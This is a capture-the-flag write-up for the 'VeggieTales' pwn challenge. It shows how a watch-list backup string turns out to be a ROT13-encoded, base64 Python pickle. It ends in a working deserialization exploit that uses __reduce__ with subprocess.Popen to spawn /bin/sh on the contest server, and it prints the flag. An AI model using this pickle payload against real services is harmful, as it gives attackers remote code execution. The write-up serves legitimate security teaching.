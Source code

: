 # VeggieTales
Pwn

## Challenge 

	It's my favorite show to watch while practicing my python skills! I've seen episode 5 at least 13 times.

	nc pwn.tamuctf.com 8448

	Difficulty: easy-medium

	2.23 1:58 pm CST: Added hint to description

## Solution

#### Program Operation

We are given 4 choices

	1. Add an episode to your watched list
	2. Print your watch list
	3. Backup your watch list
	4. Load your watch list

And we can add many episodes

	1.  Wheres God When Im S-Scared?
	2.  God Wants Me to Forgive Them!?!
	3.  Are You My Neighbor?
	4.  Rack, Shack and Benny
	5.  Dave and the Giant Pickle
	6.  The Toy That Saved Christmas
	7.  Larry-Boy! And the Fib from Outer Space!
	...
	45. Celery Night Fever
	46. Beauty and the Beet
	47. Noahs Ark
	Enter an episode (by number) to add to your watched list: 5

After which we can print

	----------------------
	List of watched episodes:
	5.  Dave and the Giant Pickle
	----------------------

Backup
	
	Episode list backup string (Don't lose it!): tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt==

And load it again 

	Load your backed up list here: tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt==
	Loaded backup

	Load your backed up list here: hello
	Invalid backup

---

#### Python Pickle

Since it says that a hint is added to episode 5. Perhaps it has something to do [with Python and Pickles](https://blog.nelhage.com/2011/03/exploiting-pickle/).

	5.  Dave and the Giant Pickle

To confirm, let's backup immediately upon loading the program. This probably refers to an empty list

	Episode list backup string (Don't lose it!): tNAqpDNh


To simplify my life, I made a helper script to encode/decode.

> [helper.py](helper.py)

Encoding a empty array...

	>>> encode([])
	b'gANdcQAu'

I realised the server and my self encoded do not match

	$ echo tNAqpDNh | base64 -D | xxd # server
	00000000: b4d0 2aa4 3361                           ..*.3a
	$ echo gANdcQAu | base64 -D | xxd # self
	00000000: 8003 5d71 002e                           ..]q..

---

#### Could it be XOR? (TLDR; not working)

I initially though it was XOR cipher and tried out....

**Backup empty array**

	server = 'tNAqpDNh'
	self   = encode([])
	self   = 'gANdcQAu'
	>>> bxor(base64.b64decode(self), base64.b64decode(server)).hex()
	'34d377d5334f'


**Backup `9.  Madame Blueberry`**


	# Episode list backup string (Don't lose it!):
	# tNAqpDOLSNNNNQxhVPOALJEuoJHtDzk1MJWypaW5pDSuYt==

	server = 'tNAqpDOLSNNNNQxhVPOALJEuoJHtDzk1MJWypaW5pDSuYt=='
	# self   = encode(['9.  Madame Blueberry'])
	self   = 'gANdcQBYFAAAADkuICBNYWRhbWUgQmx1ZWJlcnJ5cQFhLg=='
	>>> bxor(base64.b64decode(server), base64.b64decode(self)).hex()
	'34d377d533d35cd34d35354f74d3cd4df54fcdf4cd4d554055f7d7d7d7c0d535cf4c'

**Backup `9.  Madame Blueberry` and `28. Tomato Sawyer and Huckleberry Larrys Big River Rescue`**

	server = 'tNAqpDNbJODNNNN5YvNtGJSxLJ1yVRWfqJIvMKWlrKROJQxNNNNlBP4tIT9gLKEiVSAuq3yypvOuozDtFUIwn2kyLzIlpaxtGTSlpaymVRWcMlOFnKMypvOFMKAwqJIkNzHh'
	self   = encode(['9.  Madame Blueberry', '28. Tomato Sawyer and Huckleberry Larrys Big River Rescue'])
	>>> bxor(base64.b64decode(server), base64.b64decode(self)).hex()
	'34d377d533737cf4cd34d3404cd34d55f5d54df0177557f3ddf74d55d7d7d5d54f7d354d34d3573cd00d75500d4dd54d75734fdc05d7d4d3cfcd54cd5d3753f405574d5757d7d54d5555d7d7d5d57557f55573d7f5d557d4d3d755d353ddf7553554cf'

It seemed to match so I tried using it as a key.

	def make_backup_string(obj):
		string = pickle.dumps(obj)
		key = bytes.fromhex('34d377d533737cf4cd34d3404cd34d55f5d54df0177557f3ddf74d55d7d7d5d54f7d354d34d3573cd00d75500d4dd54d75734fdc05d7d4d3cfcd54cd5d3753f405574d5757d7d54d5555d7d7d5d57557f55573d7f5d557d4d3d755d353ddf7553554cf')
		encoded = bxor(string, key)
		return base64.b64encode(encoded)

	>>> make_backup_string(['9.  Madame Blueberry', '28. Tomato Sawyer and Huckleberry Larrys Big River Rescue'])
	b'tNAqpDNbJODNNNN5YvNtGJSxLJ1yVRWfqJIvMKWlrKROJQxNNNNlBP4tIT9gLKEiVSAuq3yypvOuozDtFUIwn2kyLzIlpaxtGTSlpaymVRWcMlOFnKMypvOFMKAwqJIkNzHh'

	>>> make_backup_string(['aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaau'])
	>>> make_backup_string(['aaaabaaacaaadaaaeaaa', 'gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaau'])
	>>> make_backup_string(['9.  0123456789ABCDEF', '28. Tomato Sawyer and Huckleberry Larrys Big River Rescue'])

But no matter what I tried, it does not accept it.

	Load your backed up list here: tNAqpDMrLfTNNLIhLbIvNJS0LpF2FDOSvJYoNLa2s7QuHFIsVbI/XbFsHDFsLL8sFBIkvWS2uLKurDmsPFY9lWQ2IjY2tqUsNDSmtrS0BzaUNAC2lLQjtbK2IKJSvNk=
	Invalid backup

### ROT13 Cipher?

Soon after, I noticed something. There is a 1-1 mapping between the letters!


	server = 'tNAqpDNh'
	self   = 'gANdcQAu'

	server = 'tNAqpDOLSNNNNQxhVPOALJEuoJHtDzk1MJWypaW5pDSuYt=='
	self   = 'gANdcQBYFAAAADkuICBNYWRhbWUgQmx1ZWJlcnJ5cQFhLg=='

On close inspection and testing, it is ROT13.

So let's update our function helper

	def make_backup_string(obj):
		string = pickle.dumps(obj)
		encoded = base64.b64encode(string).decode()
		return codecs.encode(encoded, "rot-13") 

And try out on server

	>>> make_backup_string(['Hello World'])
	'tNAqpDOLPjNNNRuyoTkiVSqipzkxpDSuYt=='

And it works!!!

	Load your backed up list here: tNAqpDOLPjNNNRuyoTkiVSqipzkxpDSuYt==
	Loaded backup

	1. Add an episode to your watched list
	2. Print your watch list
	3. Backup your watch list
	4. Load your watch list
	2
	----------------------
	List of watched episodes:
	Hello World

### The Exploit

Now that we are able to send a Pickle, let's get a shell.

> Reference: https://blog.nelhage.com/2011/03/exploiting-pickle/

	class RunBinSh(object):
		def __reduce__(self):
			return (subprocess.Popen, (('/bin/sh',),))

	>>> make_backup_string(RunBinSh())
	'tNAwp3IvpUWiL2ImpjcDo3OyotckNStUNNNNY2Wcov9mnUROuKRPuKRQHaRRYt=='

Run on server

	Load your backed up list here: tNAwp3IvpUWiL2ImpjcDo3OyotckNStUNNNNY2Wcov9mnUROuKRPuKRQHaRRYt==
	Loaded backup

	1. Add an episode to your watched list
	2. Print your watch list
	3. Backup your watch list
	4. Load your watch list
	2
	/bin/sh: 1: 2: not found
	ls
		flag.txt
		server.py
	cat flag.txt
		gigem{d0nt_7rust_th3_g1ant_pick1e}

## Flag

	gigem{d0nt_7rust_th3_g1ant_pick1e}
